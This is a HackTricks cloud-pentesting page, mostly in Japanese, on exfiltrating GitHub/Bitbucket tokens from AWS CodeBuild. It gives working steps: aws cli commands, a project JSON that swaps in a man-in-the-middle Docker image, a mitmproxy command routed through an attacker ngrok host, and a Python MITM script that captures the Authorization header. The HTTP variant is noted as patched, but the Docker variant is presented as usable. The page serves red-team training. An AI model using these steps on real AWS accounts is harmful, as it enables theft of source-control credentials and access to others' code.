 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recover Github/Bitbucket Configured Tokens

まず、漏洩する可能性のあるソースクレデンシャルが設定されているか確認します:
```bash
aws codebuild list-source-credentials
```
### Dockerイメージを介して

例えばGithubへの認証がアカウントに設定されている場合、Codebuildを使用してプロジェクトのビルドを実行するための特定のDockerイメージを使用することで、その**アクセス**（**GHトークンまたはOAuthトークン**）を**流出**させることができます。

この目的のために、新しいCodebuildプロジェクトを**作成**するか、既存のプロジェクトの**環境**を変更して**Dockerイメージ**を設定することができます。

使用できるDockerイメージは[https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)です。これは非常に基本的なDockerイメージで、**環境変数 `https_proxy`**、**`http_proxy`**、および**`SSL_CERT_FILE`**を設定します。これにより、**`https_proxy`**および**`http_proxy`**で指定されたホストのトラフィックの大部分を傍受し、**`SSL_CERT_FILE`**で指定されたSSL証明書を信頼することができます。

1. **独自のDocker MitMイメージを作成してアップロード**
* プロキシIPアドレスを設定し、SSL証明書を設定して**Dockerイメージをビルド**するためのリポジトリの指示に従います。
* メタデータエンドポイントへのリクエストを傍受しないように**`http_proxy`を設定しないでください**。
* **`ngrok`**を使用して、`ngrok tcp 4444`のようにプロキシをホストに設定することができます。
* Dockerイメージがビルドされたら、それを**パブリックリポジトリ**（Dockerhub、ECRなど）に**アップロード**します。
2. **環境を設定**
* **新しいCodebuildプロジェクトを作成**するか、既存のプロジェクトの環境を**変更**します。
* プロジェクトが**前に生成されたDockerイメージ**を使用するように設定します。

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **ホストにMitMプロキシを設定**

* **Githubリポジトリ**に示されているように、次のようなものを使用できます:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**mitmproxyバージョンは9.0.1を使用**しましたが、バージョン10では動作しない可能性が報告されています。
{% endhint %}

4. **ビルドを実行して資格情報をキャプチャする**

*   **Authorization**ヘッダーにトークンが表示されます:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

これはaws cliからも以下のように実行できます

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via HTTP protocol~~

{% hint style="success" %}
**この脆弱性は2023年2月20日の週（おそらく金曜日）にAWSによって修正されました。そのため、攻撃者はもうこれを悪用できません :)**
{% endhint %}

攻撃者が**CodeBuild上で昇格された権限を持っている場合、設定されたGithub/Bitbucketトークン**や、OAuthを介して権限が設定されている場合は**コードにアクセスするために使用される一時的なOAuthトークン**を漏洩させることができます。

* 攻撃者は環境変数**http\_proxy**と**https\_proxy**をCodeBuildプロジェクトに追加し、自分のマシンを指すように設定できます（例：`http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* 次に、githubリポジトリのURLをHTTPSではなくHTTPを使用するように変更します。例：\*\*http://\*\*github.com/carlospolop-forks/TestActions
* その後、[https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)の基本的な例を、プロキシ変数（http\_proxyおよびhttps\_proxy）で指定されたポートで実行します。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最後に、**Build the project**をクリックすると、**credentials**が**クリアテキスト**（base64）でmitmポートに送信されます：

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
これで攻撃者は自分のマシンからトークンを使用し、その特権をすべてリストし、CodeBuildサービスを直接使用するよりも簡単に（悪）用することができます。
{% endhint %}

{% hint style="success" %}
AWS Hackingを学び、練習する:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hackingを学び、練習する: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**subscription plans**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f)または[**telegram group**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローしてください。
* **ハッキングトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してください。

</details>
{% endhint %}

